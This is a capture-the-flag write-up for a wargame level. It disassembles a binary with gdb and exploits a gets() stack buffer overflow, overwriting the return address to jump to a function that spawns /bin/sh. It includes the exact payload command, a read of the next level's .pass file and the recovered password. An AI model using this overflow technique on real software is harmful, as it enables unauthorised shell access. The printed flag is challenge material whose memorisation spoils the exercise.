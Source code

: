When we log in, we can see an exploitable binary. Let's see what's inside:
```
(gdb) info functions                
All defined functions:              
                                    
Non-debugging symbols:              
0x080482f8  _init                   
0x08048340  gets                    
0x08048340  gets@plt                
0x08048350  fwrite                  
0x08048350  fwrite@plt              
0x08048360  system                  
0x08048360  system@plt              
0x08048370  __gmon_start__          
0x08048370  __gmon_start__@plt      
0x08048380  __libc_start_main       
0x08048380  __libc_start_main@plt   
0x08048390  _start                  
0x080483c0  __do_global_dtors_aux   
0x08048420  frame_dummy             
0x08048444  run <------- this will matter
0x08048480  main <------- and this
0x080484a0  __libc_csu_init         
0x08048510  __libc_csu_fini         
0x08048512  __i686.get_pc_thunk.bx  
0x08048520  __do_global_ctors_aux   
0x0804854c  _fini
```
main is:
```
(gdb) disass main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   ebp
   0x08048481 <+1>:     mov    ebp,esp
   0x08048483 <+3>:     and    esp,0xfffffff0
   0x08048486 <+6>:     sub    esp,0x50
   0x08048489 <+9>:     lea    eax,[esp+0x10]
   0x0804848d <+13>:    mov    DWORD PTR [esp],eax
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x8048495  <+21>:    leave
   0x08048496 <+22>:    ret
```
It basically creates a buffer of `0x40`, but reserve `0x50` bytes in the stack (`0x10` for pointers), and then call `gets` on this buffer. \
run is:
```
(gdb) disass run                                         
Dump of assembler code for function run:                 
   0x08048444 <+0>:     push   ebp                       
   0x08048445 <+1>:     mov    ebp,esp                   
   0x08048447 <+3>:     sub    esp,0x18                  
   0x0804844a <+6>:     mov    eax,ds:0x80497c0          
   0x0804844f <+11>:    mov    edx,eax                   
   0x08048451 <+13>:    mov    eax,0x8048570             
   0x08048456 <+18>:    mov    DWORD PTR [esp+0xc],edx   
   0x0804845a <+22>:    mov    DWORD PTR [esp+0x8],0x13  
   0x08048462 <+30>:    mov    DWORD PTR [esp+0x4],0x1   
   0x0804846a <+38>:    mov    DWORD PTR [esp],eax       
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>    
   0x08048472 <+46>:    mov    DWORD PTR [esp],0x8048584 
   0x08048479 <+53>:    call   0x8048360 <system@plt> 
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
```
Run just calls `fwrite` and then `system` with `/bin/sh`. \
We can do a buffer overflow on the function `main` to overwrite the `eip` to execute the function `run` that will just call `/bin/sh` with the user `level2`, so we can then access the password. \
But as we need to execute this through a pipe, `/bin/sh` will automatically shutdown (`man isatty`), because it will try to execute the input (and there is none). \
We have a little trick with `cat` to keep stdin open, so `/bin/sh` will keep listening to `stdin` and execute whatever is sent through it.
```bash
$ # the addresse overwriting the eip is in little endian
$ python -c 'print "A"*76 + "\x44\x84\x04\x08"' > /tmp/exploit

$ # the - keeps stdin open
$ cat /tmp/exploit - | ./level1
Good... Wait what ?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

